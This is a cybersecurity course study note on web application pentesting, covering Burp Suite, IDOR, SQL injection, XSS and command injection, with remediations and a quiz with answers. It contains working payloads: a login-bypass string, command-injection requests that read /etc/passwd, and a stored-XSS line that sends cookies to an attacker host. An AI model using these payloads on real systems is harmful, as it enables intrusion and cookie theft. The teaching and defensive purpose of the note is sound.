


# Web Application Pentesting

> [!info] Document Metadata
> - **Course:** `=this.course`
> - **Topic:** `=this.topic`
> - **Status:** `=this.status`

**Tags:** #[[Computer Science]] #[[NSSECU2]] #[[Cybersecurity]] #[[Web Security]] #[[Burp Suite]] #[[OWASP]] #[[SQL Injection]] #[[XSS]] #[[IDOR]]

---

## Overview

> Web applications represent the most exposed, feature-dense component of an organization's public perimeter. Web application penetration testing combines protocol-level HTTP analysis with manual request tampering to identify logic flaws, broken access controls, and injection vulnerabilities that automated scanners overlook. Utilizing intercepting proxies—primarily **Burp Suite**—security analysts manipulate client-side requests, inspect server responses, and evaluate how backend servers process untrusted user input against the **OWASP Top 10** vulnerability taxonomy.

## Key Definitions

- **Intercepting Proxy:** A specialized intermediary tool positioned between a client browser and a target web server that captures, logs, and allows manual or automated tampering with HTTP/HTTPS traffic.
- **Burp Suite:** The industry-standard web application security testing platform developed by PortSwigger, featuring Proxy, Repeater, Intruder, Decoder, and Sequencer modules.
- **Insecure Direct Object Reference (IDOR / BOLA):** A broken access control flaw where an application uses user-supplied input to access database objects directly without validating whether the requesting user possesses authorization for that specific record.
- **SQL Injection (SQLi):** An injection vulnerability occurring when untrusted user input is directly concatenated into dynamic SQL queries, allowing an attacker to manipulate database execution, bypass authentication, or extract sensitive data.
- **Cross-Site Scripting (XSS):** A client-side code injection flaw where an attacker injects malicious JavaScript into a web application, which is subsequently executed within the browser of a victim user.
- **Command Injection:** An operating system injection flaw where an application passes unfiltered user input directly to a system shell execution function (e.g., `system()`, `exec()`, `passthru()`), granting the attacker arbitrary OS command execution.
- **Burp Repeater:** A manual testing tool within Burp Suite designed to modify and re-send individual HTTP requests repeatedly to observe subtle response differences.
- **Burp Intruder:** An automated parameter fuzzing engine within Burp Suite used for password brute-forcing, directory enumeration, and identifier cycling.

## Theoretical Framework / Core Concepts

### 1. Intercepting Proxy Architecture

All web penetration testing relies on routing browser traffic through a local proxy listener:



1. **Proxy Listener:** Browser network settings are configured to route all HTTP/S traffic through `127.0.0.1:8080`.
2. **CA Certificate Installation:** PortSwigger's custom root CA certificate is imported into the browser trust store to permit transparent SSL/TLS decryption (HTTPS inspection).
3. **Traffic Analysis:** Every request and response is archived in the **HTTP History** tab for passive analysis.

### 2. Anatomy of an HTTP Request & Response

Understanding raw HTTP protocol mechanics is essential for manual tampering:

```http
POST /api/v1/user/update HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: application/json
Content-Type: application/json
Content-Length: 48
Cookie: session=eyJuYW1lIjoiYWxpY2UiLCJyb2xlIjoidXNlciJ9

{"user_id": 101, "email": "alice@target.lab"}
```

- **Request Line:** Method (`POST`), Resource Path (`/api/v1/user/update`), Protocol (`HTTP/1.1`).
- **Headers:** Metadata instructions (e.g., `Host`, `User-Agent`, `Content-Type`, `Cookie`).
- **Body:** Data payload (JSON, URL-encoded form data, XML, or multipart binary).

### 3. Burp Suite Tool Ecosystem & Attack Modules

| Module | Primary Operational Function | Typical Assessment Workflow |
| :--- | :--- | :--- |
| **Burp Proxy** | Real-time traffic interception and logging | Observe baseline application workflow; capture specific target requests. |
| **Burp Repeater** | Single-request manipulation (`Ctrl+R`) | Test parameter tampering, SQL injection payloads, authorization bypasses. |
| **Burp Intruder** | Automated payload fuzzing (`Ctrl+I`) | Cycle user IDs (`100` to `200`), fuzz parameters for XSS, password brute-force. |
| **Burp Decoder** | Encoding and decoding utility | Transform Base64, URL encoding, Hex, HTML entities, and MD5/SHA hashes. |
| **Burp Sequencer**| Session token entropy analysis | Test whether generated session cookies are cryptographically random or predictable. |

## Web Vulnerability Testing Protocols & Attack Vectors

### 1. Insecure Direct Object References (IDOR)

IDOR occurs when an application exposes a reference to an internal object in a request parameter without verifying authorization:

```text
================================================================================
BASELINE REQUEST (USER 101 LOGGED IN):
================================================================================
GET /api/documents?doc_id=1010 HTTP/1.1
Host: target.com
Cookie: session_token=USER_101_SESSION

HTTP/1.1 200 OK
{"document_name": "Alice_Resume.pdf", "owner": "alice"}

================================================================================
TAMPERED REQUEST (TESTING USER 102'S DOCUMENT):
================================================================================
GET /api/documents?doc_id=1011 HTTP/1.1
Host: target.com
Cookie: session_token=USER_101_SESSION

HTTP/1.1 200 OK
{"document_name": "Bob_Confidential_Salary.pdf", "owner": "bob"}

CONCLUSION: IDOR vulnerability confirmed! User 101 can access User 102's private files.
```

### 2. SQL Injection (SQLi) Testing

SQL injection occurs when user-supplied input alters the logical structure of a database query:

```sql
-- Vulnerable Server-Side Query Construction (PHP/MySQL):
$query = "SELECT * FROM users WHERE username = '" . $_POST['user'] . "' AND password = '" . $_POST['pass'] . "'";

-- Injected Payload in Username Field:
admin' OR '1'='1' -- 

-- Resulting Server Query (Authentication Bypassed):
SELECT * FROM users WHERE username = 'admin' OR '1'='1' -- ' AND password = '...'
```

#### SQL Injection Taxonomy

- **In-Band SQLi:** Data is extracted through the same channel used to inject (Error-Based, Union-Based).
- **Inferential (Blind) SQLi:** No data is directly returned on screen; results are inferred through Boolean true/false page differences or Time Delays (`SLEEP(5)`).
- **Out-of-Band SQLi:** Data is exfiltrated via DNS or HTTP requests triggered by the database daemon (`xp_dirtree`, `UTL_HTTP`).

### 3. Cross-Site Scripting (XSS) Testing

XSS occurs when unencoded user input is rendered in the victim browser's DOM:

| XSS Classification | Execution Flow & Mechanism | Example Payload |
| :--- | :--- | :--- |
| **Reflected XSS** | Payload is included in immediate request (URL parameter) and reflected directly back in the single response. | `http://target.com/search?q=<script>alert(1)</script>` |
| **Stored XSS** | Payload is permanently stored in backend database (e.g., forum post) and executes whenever any user views the page. | `<script>fetch('http://attacker.lab/?c='+document.cookie)</script>` |
| **DOM-based XSS** | Vulnerability exists entirely in client-side JavaScript processing data from a source (`location.search`) to a sink (`innerHTML`). | `element.innerHTML = location.hash;` |



### 4. Operating System Command Injection

Occurs when web applications pass user input directly to server shell functions:

```bash
# Example Vulnerable Web Function (Ping Utility):
# Backend Code: system("ping -c 1 " . $_GET['ip']);

# Normal Request:
GET /ping?ip=8.8.8.8

# Malicious Injected Requests:
GET /ping?ip=8.8.8.8;id
GET /ping?ip=8.8.8.8%20%26%26%20whoami
GET /ping?ip=8.8.8.8|cat%20/etc/passwd
GET /ping?ip=$(id)
```

## Evidence Logging & Reporting Discipline

Documenting web vulnerabilities requires pairing the exact raw HTTP request with the corresponding server response:

```text
================================================================================
WEB VULNERABILITY EVIDENCE RECORD
================================================================================
Vulnerability:       Reflected Cross-Site Scripting (XSS)
Target Endpoint:     http://192.168.10.45:8080/search.php
Parameter:           `keyword`

Raw HTTP Request (Burp Repeater):
GET /search.php?keyword=%3Cscript%3Ealert(%27XSS_POC%27)%3C/script%3E HTTP/1.1
Host: 192.168.10.45:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64)

Raw HTTP Response:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<div>Search results for: <script>alert('XSS_POC')</script></div>

Technical Analysis: The server reflects the `keyword` parameter verbatim without
                    HTML entity encoding or Content Security Policy (CSP) headers.
================================================================================
```

## Defensive Architecture & Remediations

- **Context-Aware Server-Side Authorization:** Never rely on client-side parameters for access control. Validate that `current_user.id == requested_object.owner_id` on every backend database query.
- **Parameterized SQL Queries (Prepared Statements):** Completely separate SQL code structure from user data.
  ```php
  // Secure Prepared Statement (PHP PDO)
  $stmt = $pdo->prepare('SELECT id, name, email FROM users WHERE username = :user AND password = :pass');
  $stmt->execute(['user' => $username, 'pass' => $hashed_password]);
  ```
- **Contextual Output Encoding:** Encode all dynamic user input before inserting into HTML (`htmlspecialchars`), JavaScript, or attributes.
- **Content Security Policy (CSP):** Restrict inline script execution using strict CSP headers (`Content-Security-Policy: default-src 'self'; script-src 'self'`).

## Multiple Choice Questions

1. What role does an Intercepting Proxy (e.g., Burp Suite) play in web application penetration testing?
- **A)** It replaces the target web server's operating system kernel.
- **B)** It intercepts HTTP/HTTPS network traffic between the browser and web server, allowing the tester to inspect, modify, and replay requests.
- **C)** It automatically pays the client's monthly cloud hosting invoice.
- **D)** It encrypts hard drives using BitLocker.

2. Which module in Burp Suite is primarily used to take an existing HTTP request, modify specific headers or parameters manually, and re-send it multiple times to analyze response differences?
- **A)** Burp Decoder
- **B)** Burp Repeater
- **C)** Burp Sequencer
- **D)** Burp Extender

3. A tester changes the URL parameter `GET /invoice?id=4001` to `GET /invoice?id=4002` while logged in as User A, and successfully views User B's confidential billing statement. What vulnerability was discovered?
- **A)** Insecure Direct Object Reference (IDOR / Broken Object Level Authorization)
- **B)** Stored Cross-Site Scripting
- **C)** DNS Zone Transfer
- **D)** SYN Flood Denial of Service

4. Why are Parameterized Queries (Prepared Statements) effective at completely preventing SQL Injection vulnerabilities?
- **A)** They encrypt the SQL database using AES-256.
- **B)** They treat user input strictly as literal data rather than executable SQL command instructions, preventing input from altering the query structure.
- **C)** They convert all incoming web traffic into UDP packets.
- **D)** They disable all SQL database logging.

5. What is the fundamental difference between Reflected XSS and Stored XSS?
- **A)** Reflected XSS only works on mobile phones, while Stored XSS works on desktops.
- **B)** Reflected XSS payload is executed immediately from a single request/URL reflection, whereas Stored XSS is saved in the database and executes whenever victims view the stored content.
- **C)** Reflected XSS requires physical access to the server room.
- **D)** Stored XSS does not execute JavaScript.

6. An application takes an IP address input from a form and executes the command `system("ping -c 2 " . $ip)`. An analyst submits `8.8.8.8; whoami`. What vulnerability is being tested?
- **A)** OS Command Injection
- **B)** Cross-Site Request Forgery (CSRF)
- **C)** Broken Authentication
- **D)** XML External Entity (XXE) Injection

7. When analyzing session cookies in Burp Sequencer, what quality of the session generation mechanism is being evaluated?
- **A)** The physical location of the server
- **B)** The randomness (entropy) and statistical unpredictability of the session tokens
- **C)** The font size of the website
- **D)** The number of database tables

8. Which HTTP response header instructs the browser to block inline script execution and restrict where scripts can be loaded from?
- **A)** `Server: Apache`
- **B)** `Content-Security-Policy`
- **C)** `X-Powered-By`
- **D)** `Access-Control-Allow-Origin: *`

### Answer Key & Explanations

1. **B**. An **Intercepting Proxy** sits between the client and server, providing real-time visibility and granular request/response modification capabilities.
2. **B**. **Burp Repeater** is explicitly designed for manual, iterative request tampering and comparative response analysis.
3. **A**. An **Insecure Direct Object Reference (IDOR)** occurs when an application exposes backend database identifiers without enforcing server-side authorization checks.
4. **B**. **Prepared Statements** ensure the database engine compiles the SQL query structure beforehand, treating all subsequently bound parameters strictly as literal data variables.
5. **B**. **Reflected XSS** requires the victim to click a malicious link reflecting the script in real time; **Stored XSS** persists in the application database, impacting anyone who visits the affected page.
6. **A**. Appending shell command delimiters (`;`, `&&`, `|`) to execute unintended operating system commands constitutes **OS Command Injection**.
7. **B**. **Burp Sequencer** applies statistical tests (FIPS, entropy) to evaluate the **randomness and unpredictability** of generated session tokens.
8. **B**. **`Content-Security-Policy` (CSP)** is a browser defense header that restricts script execution sources, drastically reducing XSS exploitability.

## References & Navigation

- **Previous Topic:** [[Authentication Weakness Testing]]
- **Next Topic:** [[Exploitation Workflow with Metasploit]]
- **Related Notes:** [[Authentication Weakness Testing]], [[Exploitation Workflow with Metasploit]]
